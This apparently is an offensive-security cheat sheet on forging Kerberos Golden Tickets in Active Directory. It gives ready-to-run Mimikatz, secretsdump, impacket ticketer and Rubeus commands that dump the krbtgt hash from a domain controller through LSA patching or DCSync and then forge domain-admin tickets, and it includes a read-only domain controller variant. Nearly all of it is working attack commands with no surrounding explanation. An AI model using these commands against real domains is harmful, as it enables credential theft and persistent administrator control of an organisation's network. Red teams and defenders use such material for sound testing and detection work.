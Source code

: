 # Golden Ticket

### 1) Retrieve the krbtgt hash

From the DC by dumping LSA

    Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dc

With a DCSync

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'

### 2) Create TGT

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

    impacket-ticketer -aesKey KRBTGT_AES_KEY -domain-sid DOMAIN_SID -domain DOMAIN ANY_USER

    mimikatz "kerberos::golden /user:ADMIN_USER /domain:DOMAIN /sid:DOMAIN-SID /aes256:KRBTGT_AES256 /ptt"

## Linux

### 1) Dump krbtgt has with DCSync

    secretsdump.py -just-dc-user 'krbtgt' -just-dc-ntlm domain.local/administrator:password@<DC>

### 2) Create TGT

    ticketer.py -domain domain.local -domain-sid <domain_SID> -nthash <krbtgt_hash> -user-id <target_RID> -duration <ticket_lifetime_in_day> <target_user>

# RODC Golden ticket

In case of a RODC, it is still possible to forge a Golden Ticket but the KRBTGT's version number is needed and only the accounts allowed to authenticate can be specified in the ticket (according to the msDS-RevealOnDemandGroup and msDS-NeverRevealGroup lists).

    .\Rubeus.exe golden /rodcNumber:<krbtgt_number> /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:<krbtgt_aes_key> /user:user1 /id:<user_RID> /domain:domain.local /sid:<domain_SID>
